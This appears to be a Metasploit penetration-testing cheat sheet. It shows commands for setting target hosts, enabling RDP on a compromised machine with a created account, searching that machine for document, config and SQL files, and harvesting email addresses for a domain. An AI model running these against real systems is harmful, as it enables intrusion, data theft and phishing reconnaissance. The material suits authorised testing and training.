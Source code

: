 ```
msf > setg LHOST 192.168.1.101
LHOST => 192.168.1.101
msf > setg RHOSTS 192.168.1.0/24
RHOSTS => 192.168.1.0/24
msf > setg RHOST 192.168.1.136
RHOST => 192.168.1.136
```

To capture the output of modules ran within Metasploit, utilize the spool command and designate a destination log file.

```
msf6> spool /tmp/Company_A_DC.log
```

Enable RDP:

```
meterpreter > run getgui -u rosesecurity -p password
```

Cleanup RDP:

```
meterpreter > run multi_console_command -rc /root/.msf4/logs/scripts/getgui/clean_up__20110112.2448.rc
```

Run modules against file of hosts:

```
msf6> set RHOSTS file:/tmp/nmap_output_hosts.txt
```

Search for interesting files:

```
meterpreter> search -f *.txt
meterpreter> search -f *.zip
meterpreter> search -f *.doc
meterpreter> search -f *.xls
meterpreter> search -f config*
meterpreter> search -f *.rar
meterpreter> search -f *.docx
meterpreter> search -f *.sql
```

Metasploit Web Server Interface:

Start the web service, listening on any host address:

```
# msfdb --component webservice --address 0.0.0.0 start
```

Metasploit Email Harvesting:

```
msf6 auxiliary(gather/search_email_collector) > set OUTFILE /tmp/emails.txt
OUTFILE => /tmp/emails.txt
msf6 auxiliary(gather/search_email_collector) > set DOMAIN target.com
DOMAIN => target.com
msf6 auxiliary(gather/search_email_collector) > run

[*] Harvesting emails.....
```
